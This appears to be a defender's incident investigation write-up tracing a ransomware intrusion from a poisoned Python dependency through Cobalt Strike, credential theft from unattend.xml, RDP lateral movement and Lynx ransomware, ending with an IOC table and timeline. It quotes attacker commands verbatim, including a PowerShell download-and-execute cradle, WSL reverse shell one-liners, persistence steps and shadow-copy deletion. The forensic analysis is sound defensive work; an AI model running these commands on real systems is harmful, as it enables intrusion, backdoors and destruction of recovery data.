### <span class="hl">TL;DR</span>
On 2 February 2026, the unucorb domain was compromised when a user michelvic executed a poisoned python dependency in train.py on PC01. This triggered a powershell command that deployed a cobalt strike beacon. He established persistence via windows registry updlate.dll, then found domain administrator's password inside unattend.xml file. After successfully extracting domain.admin credentials unattend.xml. Using this stolen password, he logged into DC01, BACKUP-SERVER-0, and FILE-SERVER-01 using RDP. On the domain controller, he established a reverse shell systern.exe and created a administrator account welsam. finally, the attacker destroyed volume shadow copies to inhibit recovery and deployed **Lynx ransomware** *system recovery.exe* across the servers.

### <span style="color:red">Initial Access</span>

Knowing that a developer executed a script with a trusted зython dependency which had been tampered with, I filtered logs by process creation with python in the command line. I found that at 01:17, user michelvic on *PC01* ran a script *train.py* from the torch-inference-stack project folder.


Instantly after that, a powershell command was executed, which downloaded a payload named a from *54.93.78.216 over port 80*

```powershell
powershell.exe -NoProfile -WindowStyle Hidden -Command "IEX ((new-object net.webclient).downloadstring('http://54.93.78.216:80/a'))"
```

#### Cobalt Strike beacon

After that, a `.ps1` script was executed.


The downloaded PowerShell script is the same stager I analyzed in a [RunsomHub investigation](https://hexpysya.github.io/blue_team/elk-ransomhub/#custom-delegates). Reconstructing the payload, I retrieved the binary 
```cmd
file var_code.bin
var_code.bin: PE32+ executable (DLL) (GUI) x86-64, for MS Windows
MD5: 5a5d52f727666889ebf15e94905b0309
```


VirusTotal and static analysis confirm this is a **Cobalt Strike** beacon.

### <span style="color:red">Reconnaissance</span>

#### Host enumeration

After gaining access, the attacker started their reconnaissance on 2 February at 01:24.


The attacker ran a comprehensive suite of native Windows utilities to map the host, network, and local system environment:

```powershell
systeminfo
hostname
Get-HotFix | Select HotFixID, Description, InstalledOn
Get-CimInstance Win32_LogicalDisk
whoami
whoami /priv
whoami /groups
net users
net user user1shell net user shell net user Administrator
net localgroup
net localgroup administrators
Get-LocalUser | ft Name,Enabled,LastLogon
Get-ChildItem C:\Users -Force | select Name
ipconfig /all
arp -a
netstat -ano
route print
sc query windefend
sc queryex type= service
```

#### AD and firewall
The attacker queried domain structures and trust relationships and also checked the local firewall states and rules.
```powershell
net group /domain
net group /domain "RDP Users"
nltest /domain_trusts
nltest /domain_trusts /all_trusts
netsh advfirewall firewall dump
netsh firewall show state / show config
```

#### Persistence 

At 01:47, he dropped and executed a new binary, *updlate.dll*, establishing persistence by adding it to the `\Run` registry key as **Updater**

```powershell
rundll32.exe C:\Users\michelvic\AppData\Roaming\updlate.dll, StartW
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
                 -Name "Updater" `
                 -Value 'rundll32.exe "C:\Users\michelvic\AppData\Roaming\updlate.dll",StartW'
```

This file initiated a connection to the previously identified ip *54.93.78.216:80*


#### WSL
He then checked running processes and services, especially looking for the WSL:
```powershell
Get-Process
Get-Process | Sort-Object WorkingSet -Descending
Get-Process wsl
Get-Service
Get-Service | Where-Object {$_.Status -eq "Running"}
Get-Service -Name wsl             
Get-CimInstance Win32_Service | Select-Object Name, State, StartMode, PathName
```

The attacker attempted to use WSL to establish a reverse shell to *18.197.226.152:4242*, but multiple attempts, no outbound connection logs to that IP, so it didn't work.
```powershell
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
wsl whoami / wsl -u root / wsl sudo whoami
wsl sudo sh -i >& /dev/udp/18.197.226.152/4242 0>&1
wsl sh -i >& /dev/udp/18.197.226.152/4242 0>&1
```

### <span style="color:red">Privilege Escalation</span>
#### Unattend.xml
At 02:02, the attacker searched for deployment configuration files `unattend.xml, sysprep.xml, sysprep.inf`. These files are used to automate Windows OS installations and may sometimes contain credentials left over from OS deployment

```powershell
"C:\unattend.xml", "C:\Windows\Panther\Unattend.xml", "C:\Windows\Panther\Unattend\Unattend.xml", "C:\Windows\System32\sysprep.inf","C:\Windows\System32\sysprep\sysprep.xml" | Where-Object { Test-Path $_ } |   ForEach-Object { Get-Item $_ }
```

By locating these files, the attacker successfully retrieved the credentials for the **domain.admin** account.

#### New scheduled task 

At 02:13 on PC01, he utilized these stolen credentials to create a new scheduled task named *Chroom Updates*, forcing the updlate.dll to execute under the domain.admin with *the highest privileges*.

```powershell
$action = New-ScheduledTaskAction `   -Execute "rundll32.exe" `   -Argument '"C:\Users\michelvic\AppData\Roaming\updlate.dll",StartW'
Register-ScheduledTask `   -TaskName "Chroom Updates" `   -Action $action `   -User "DOMAIN\domain.admin" `   -Password "aduserad@26" `   -RunLevel Highest `   -Force
Start-ScheduledTask -TaskName "Chroom Updates"
```
### <span style="color:red">Lateral Movement</span>
After obtaining high-level credentials, the attacker authenticated with RDP as domain.admin to:  
DC01 (03:01):

BACKUP-SERVER-0 (03:20):

FILE-SERVER-01 (04:17):


On DC01, he created a file named `systern.exe` in the Temp folder. This app acted as a reverse shell. 

Also he created a administrative account named `welsam`.


### <span style="color:red">Ransomware deployment</span>
Then, he switched to BACKUP-SERVER-0 and at 04:02 began deleting system backups. 
```powershell
Get-PSDrive -PSProvider FileSystem
Get-Volume / Get-SmbShare
vssadmin delete shadows /all /quiet
vssadmin delete shadows /for=C: /quiet
Get-WmiObject Win32_ShadowCopy | ForEach-Object { $_.Delete() }
```

Across three hosts, the attacker dropped a file named *system recovery.exe* into the C:\Users\domain.admin\Documents\ directory. 

he executed the payload on the following timeline:  
at 04:30 on DC01:

at 04:31 on BACKUP-SERVER-0:

at 04:39 on FILE-SERVER-01:


Analysis of this executable confirms it is ransomware belonging to the **Lynx** family. Upon execution, it began encrypting data and dropping README.txt ransom notes across user profiles and public directories.


### <span class="hl">IOCs</span>

| Type | Value | Description |
|------|-------|-------------|
| IP | 54.93.78.216 | C2 server|
| IP | 18.197.226.152 | attempted WSL reverse shell target, port 4242 |
| Host | PC01 | initial compromise, user michelvic |
| Host | DC01 | lateral movement, ransomware deployed|
| Host | BACKUP-SERVER-0 | lateral movement, shadow copies deleted |
| Host | FILE-SERVER-01 | lateral movement, |
| File | C:\Users\michelvic\AppData\Roaming\updlate.dll | SHA256:  0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0 - C2 DLL |
| File | C:\Windows\Temp\systern.exe | reverse shell implant on DC01, beacons to 54.93.78.216 |
| File | C:\Users\domain.admin\Documents\system recovery.exe | SHA256: EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC - Lynx ransomware |
| Registry | HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\Updater | persistence pointing to updlate.dll |
| Task | Chroom Updates | scheduled task running updlate.dll as domain.admin |
| Account | michelvic | initial compromised developer account |
| Account | DOMAIN\domain.admin | compromised via plaintext password in scheduled task |
| Account | walsam | backdoor account created on DC01 |

### <span class="hl">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef recon fill:#fff3e0,stroke:#e65100,stroke-width:2px,color:#000;
    classDef privesc fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;
    classDef evade fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px,color:#000;
    classDef impact fill:#b71c1c,stroke:#7f0000,stroke-width:2px,color:#fff;
    classDef persist fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;

    A(["Poisoned Python Package"]):::default --> B["01:17 - train.py executed by michelvic on PC01"]:::access
    
    subgraph Staging ["Staging & Recon"]
        B --> C["PowerShell downloads payload 'a' from 54.93.78.216"]:::exec
        C --> D["Cobalt Strike Beacon injected via VirtualAlloc"]:::exec
        D --> E["01:24 - Host and AD Reconnaissance begins"]:::recon
    end

    subgraph Evasion ["Persistence & Evasion"]
        E --> F["01:47 - updlate.dll dropped, added to HKCU\\Run"]:::persist
        F --> G["01:54 - Attacker attempts WSL reverse shell (Failed)"]:::evade
    end

    subgraph Lateral ["Privilege Escalation & Lateral Movement"]
        G --> H["02:02 - unattend.xml parsed, domain.admin creds stolen"]:::privesc
        H --> I["02:13 - Scheduled Task creates elevated persistence for updlate.dll"]:::privesc
        I --> J["03:01 - RDP Lateral Movement to DC01, BACKUP-SERVER-0, FILE-SERVER-01"]:::exec
        J --> K["03:05 - systern.exe reverse shell dropped on DC01"]:::exec
        K --> L["Rogue account 'welsam' created on DC01"]:::privesc
    end

    subgraph Impact ["Ransomware Impact"]
        L --> M["04:02 - Shadow Copies deleted via vssadmin on BACKUP-SERVER-0"]:::impact
        M --> N["04:30 to 04:39 - system recovery.exe (Lynx) executed across servers"]:::impact
    end
